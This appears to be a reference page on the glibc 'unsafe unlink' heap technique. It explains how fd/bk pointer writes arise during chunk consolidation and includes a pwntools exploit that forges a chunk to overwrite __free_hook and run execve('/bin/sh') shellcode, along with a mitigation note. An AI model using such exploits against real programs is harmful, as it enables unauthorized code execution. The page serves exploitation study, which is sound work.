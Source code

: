 ## Implementation

The goal is to clear the next chunk's prev in use flag in order to trigger a consolidation of 2 chunks when freeing.
We then need to control the fd and bk pointers of the consolidated chunks to trigger 2 arbitrary writes.

When free unlink our first chunk during consolidation, it follows the forward pointer and update its backward pointer, and does the opposit to the forward pointer, like a regular double-linked list unlink.

```c
chunk->fd->bk = chunk->bk;
chunk->bk->fd = chunk->fd;
```

bk being at offset 0x18 and fd at offset 0x10 in the chunk structure.

The primitive looks like this in gdb:

**rax = fd**
![rax](./media/rax.png)

**rdx = bk**
![rdx](./media/rdx.png)


### Exploit example
```python
shellcode = asm("jmp shellcode;" + "nop;"*0x16 + "shellcode:" + shellcraft.execve("/bin/sh"))

fd = libc.sym.__free_hook - 0x18
bk = heap + 0x20 + 0x10 - 0x10 # heap + 0x20 = first chunk, +0x10 = shellcode
prev_size = 0x90
fake_size = 0x90 # with prev in use flag cleared

chunk_a = malloc(0x88)
chunk_b = malloc(0x88)

edit(chunk_a, p64(fd) + p64(bk) + shellcode + (b'\x00'*(0x70 - len(shellcode))) + p64(prev_size) + p64(fake_size))

# Trigger consolidation
free(chunk_b)

# Trigger free_hook
free(chunk_a)

```


## Side note

The unsorted bin, during malloc, does a *partial* unlinking, following the victim's chunk backward pointer and updating its forward pointer to the bim's head.

## Mitigation

|GLIBC VERSION|PATCHES|
|---|---|
|2.3.4|Added [[Safe unlink]]|

